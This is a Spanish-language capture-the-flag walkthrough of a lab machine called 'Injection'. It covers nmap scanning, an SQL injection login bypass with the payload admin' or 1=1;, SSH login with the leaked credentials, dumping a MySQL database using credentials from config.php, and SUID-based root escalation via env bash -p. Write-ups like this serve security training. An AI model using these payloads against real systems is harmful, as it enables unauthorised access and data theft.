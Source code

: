 Nombre de la máquina: Injection
Dificultad: Muy fácil 
Tiempo: Son las 19:15 - 20:07 


Empezamos con un escaneo normal:
`
nmap 172.17.0.3
`
En el que obtenemos como respuesta que los puertos 22/TCP y 80/TCP están abiertos. 

Al tener esta información, podemos ser ya un poco más especificos e intentar obtener más datos que nos puedan ayudar:
`
nmap 172.17.0.3 -sV -p 22,80
`

R:
`
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
`

Como en el puerto 80/TCP está corriendo una página web, probaremos a poner en nuestro navegador 172.17.0.3 para ver que tipo de página es. 
La web que está alojando Apache es una página de login, como la máquina se llama Injection, suponemos que será algo relacionado con SQLInjection y probaremos a introducir en el campo del nombre " admin' or 1=1; " y la contraseña cualquier cosa. 

Con eso hemos conseguido acceder y visualizar el siguiente mensaje:
`Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78`

Tenemos un nombre de usuario (Dylan) y un código (KJSDFG789FGSDF78) que puede ser una contraseña. Probamos a conectarnos por ssh con esas credenciales:
`
ssh dylan@172.17.0.3 
` 

El acceso fue exitoso. Ya estamos dentro de la máquina. Con sudo -l obtuve una respuesta de que el comando no existía asi que no se me ocurría una forma de poder escalar privilegios, estuve explorando las carpetas de ssh y tampoco encontré nada. Sin embargo, en las carpetas del servidor web, /var/www/html haciendo un cat del archivo config.php:
`
<?php
return [
        'db' => [
                'host' => 'localhost',
                'user' => 'root',
                'passwd' => 'paso',
                'dbname' => 'register',
                'options' => [
                        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
                ]
        ]
];
?>
` 

Intentaremos conectarnos con mysql utilizando esas credenciales:
`
mysql -u root -ppaso
`

Hacemos un:
`
show databases;
 use register;
 select * from users;
 ` 
Aunque ya sabemos que existe una base de datos llamada register, pues aparece en config.php, obtenemos:
`
+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+
` 

Era información que ya teniamos, pero probaremos lo siguiente:
`
INSERT INTO users VALUES ('prueba','123456');
INSERT INTO users VALUES ('prueba','123456');
DELETE FROM users WHERE username='prueba1';
`
Todas las consultas fueron exitosas, por lo que podemos decir que tenemos control sobre esa base de datos, pues podemos crear y eliminar los que queramos. Al igual que hacer un:
`
mysqldump --databases register -u root -ppaso > datos.sql
`
Para obtener los datos.

Aunque aún no fuimos capaces de escalar privilegios en la máquina. 


`find / -perm -4000 -user root 2>/dev/null`

`/usr/bin/env /bin/bash -p`











